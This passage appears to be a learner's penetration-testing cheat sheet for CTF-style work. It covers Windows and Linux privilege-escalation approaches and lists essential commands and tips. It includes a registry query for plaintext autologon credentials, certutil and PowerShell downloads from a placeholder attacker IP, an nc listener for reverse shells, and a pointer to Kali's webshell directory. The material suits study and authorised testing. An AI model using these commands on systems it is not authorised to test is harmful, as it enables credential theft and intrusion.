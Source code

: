 ```
* If machine is >= Windows 10 1809 & Windows Server 2019 -> Try Rogue Potato
* If machine is <= Windows 10 1809 & Windows Server 2019 -> Try Juicy Potato
* If machine is = Windows 10.0.17763 & Microsoft Windows Server 2019 -> Try SweetPotato

**NOTE**: If you see WinRM enabled, then this exploit will not work.

### Unquoted Path
The command mentioned below will find any services with the unquoted path vulnerability.
* `wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """`

### WinAutoLogon
Sometimes credentials are stored within the registry to assist with automating the login process. This means that plain text credentials may be accessible to an attacker.

* `reg query HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`

# Linux Exploitation
### Recommended Scripts
1. LinPEAS.sh (You can use the binary)
2. linux-exploit-suggestor.sh

### Common Exploits
The common exploits for linux are the following.
1. Kernel Exploits
   - Dirty Cow
3. Service misconfigurations
4. Sudo Abusing
5. Cronjob exploitation
6. Buffer Overflow
7. Path Modification
8. Pivoting
9. Outdated Service Exploitation

# Essential Windows Commands
1. net users or net user *username*
2. sc.exe *start/stop* *service-name*
3. type *filename*
4. powershell iwr *http://**192.x.x.x**/filename* -outfile *filename*
5. Certutil.exe -urlcache -f *http://**192.x.x.x**/filename* *filename*

# Essential Linux Commands
1. find / -perm -u=s -type f 2>/dev/null
2. id
3. ls -la
4. nc -lvnp *port* (bread and butter for CTF)
5. sudo -l

# Key Kali Directories
* **Reverse Shells & Backdoors**: /usr/share/webshells
* **Wordlists**: /usr/share/wordlists

# Top 10 Tips
I am not the best, I am still learning penetration testing methodologies. However, while learning here is what I recommend to help.

1. Enumerate, Enumerate, Enumerate! Nmap is your friend!
2. Get comfortable navigating using the terminal.
3. Check source code of websites.
4. Hidden directories can contain passwords or usernames.
5. Try default passwords for dashboard login.
6. Look into SMB, FTP, RDP for any information.
7. Check history files of Windows and Linux.
```